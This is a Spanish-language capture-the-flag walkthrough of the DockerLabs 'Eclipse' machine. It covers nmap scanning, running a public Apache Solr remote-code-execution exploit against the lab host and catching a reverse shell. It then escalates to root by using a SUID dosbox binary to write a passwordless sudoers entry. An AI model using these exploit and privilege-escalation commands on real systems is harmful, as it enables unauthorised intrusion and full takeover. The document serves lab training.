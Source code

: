 # Máquina Eclipse

Dificultad -> Medium

Enlace a la máquina -> [Dockerlabs](https://dockerlabs.es/)

Creador -> [Xerosec](https://hack.xero-sec.com/)

## Reconocimiento

Comenzamos realizando un escaneo general con **nmap** sobre la IP de la máquina víctima para ver que puertos tiene abiertos.

```shell
nmap -p- --open -sT --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG allPorts
________________________________________________
PORT     STATE SERVICE REASON
80/tcp   open  http    syn-ack
8983/tcp open  unknown syn-ack

```

Lanzamos un conjunto de scripts predeterminado con **nmap** para que nos reporte más información relacionada a los puertos descubiertos en el anterior escaneo.

```shell
nmap -sCV -p80,8983 172.17.0.2 -oN targeted
________________________________________________
PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.59 ((Debian))
|_http-server-header: Apache/2.4.59 (Debian)
|_http-title: Epic Battle
8983/tcp open  http    Apache Solr
| http-title: Solr Admin
|_Requested resource was http://172.17.0.2:8983/solr/
MAC Address: 02:42:AC:11:00:02 (Unknown)
```

--------------
## Explotación

Accedemos a la web del puerto 8983 y encontramos un panel de administración de **solr**.
Buscaremos exploits para vulnerabilidades en **Solr**

![Pasted image 20240423203423](https://github.com/albertomarcostic/DockerLabs-WriteUps/assets/131155486/8fa817ad-01e3-440a-a457-0cb1e1329ed3)

Hay un Remote Code Execution en concreto que llama la atención, lo descargamos y lo ejecutamos sobre la IP víctima:

```shell
searchsploit -m java/webapps/47572.py
python3 47572.py 172.17.0.2
----------------------------------------------
OS Realese: Linux, OS Version: 6.1.0-1parrot1-amd64
if remote exec failed, you should change your command with right os platform

Init node 0xDojo Successfully, exec command=whoami
RCE Successfully @Apache Solr node 0xDojo
   ninhack
```

Por defecto ejecuta el comando **whoami** y vemos que ha sido exitoso por lo que trataremos de que ejecute otro comando que nos envíe una **Reverse Shell**.

Nos pondremos en escucha con **netcat**

![Pasted image 20240423213014](https://github.com/albertomarcostic/DockerLabs-WriteUps/assets/131155486/d71a6063-c956-4f6b-b4f4-dad7e43f7ffb)

Estamos dentro !

------------------------------
### Tratamiento de la tty

Realizaremos un breve **tratamiento de la tty** para poder operar de forma cómoda sobre la consola. Los comandos a ejecutar:

```shell
script /dev/null -c bash 
```
(hacemos  **ctrl  +  Z**)

```shell
stty raw -echo; fg
reset xterm
stty rows 62 columns 248
export TERM=xterm
export SHELL=bash
```

Pondremos en rows y columns las columnas y filas que correspondan a la pantalla de nuestra máquina.
Una vez hecho esto podemos maniobrar con comodidad, pudiendo hacer Ctrl+L para limpiar la pantalla así como Ctrl+C.

------------
## Escalada de privilegios

Revisamos las archivos con permisos **SUID**:

```shell
find / -perm -4000 2>/dev/null
------------------------------------
/usr/bin/chfn
/usr/bin/chsh
/usr/bin/gpasswd
/usr/bin/mount
/usr/bin/newgrp
/usr/bin/passwd
/usr/bin/su
/usr/bin/umount
/usr/bin/dosbox
/usr/bin/sudo
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
```

Podemos ejecutar **dosbox** como **root**.
Lo explotamos modificando el **etc sudoers** de nuestro user:

```shell
LFILE='\etc\sudoers.d\ninhack'
/usr/bin/dosbox -c 'mount c /' -c "echo ninhack ALL=(ALL) NOPASSWD: ALL >c:$LFILE" -c exit
```

```shell
sudo su
whoami
----------------
root
```

Hemos alcanzado el nivel de privilegios máximo ! 
